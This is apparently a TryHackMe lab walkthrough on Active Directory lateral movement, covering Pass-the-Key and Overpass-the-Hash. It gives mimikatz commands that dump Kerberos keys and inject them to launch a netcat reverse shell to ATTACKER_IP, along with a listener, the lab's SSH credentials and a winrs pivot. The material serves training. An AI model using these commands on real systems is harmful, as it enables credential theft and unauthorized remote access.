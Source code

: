 We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:
```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key:

- **If we have the RC4 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

- **If we have the AES128 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

- **If we have the AES256 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

*Note:*
	When using **RC4**, the *key will be equal to the NTLM hash of a user*. This means that *if we could extract the NTLM hash, we can use it to request a TGT* as long as RC4 is one of the enabled protocols. This particular variant is usually known as **Overpass-the-Hash (OPtH)**.

To receive the reverse shell, we should run a reverse listener on our attacking machine:
```shell-session
user@AttackBox$ nc -lvp 5556
```

*Note:*
	Just as with PtH, any command run from this shell will use the credentials injected via mimikatz.


# Example
To begin this exercise, you will need to connect to THMJMP2 using the following credentials via SSH:
	**User:** ZA.TRYHACKME.COM\t2_felicia.dean
	**Password**: iLov3THM!

`ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com`

These credentials will grant you administrative access to THMJMP2, allowing you to use mimikatz to dump the authentication material needed to perform any of the techniques presented during this task.

Using your SSH session, use mimikatz to extract authentication material and perform Pass-the-Hash, Pass-the-Ticket or Pass-the-Key against domain user `t1_toby.beck`.

Once you have a command prompt with his credentials loaded, use `winrs` to connect to a command prompt on THMIIS. Since t1_toby.beck's credentials are already injected in your session as a result of any of the attacks, you can use winrs without specifying any credentials, and it will use the ones available to your current session:
```shell-session
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```
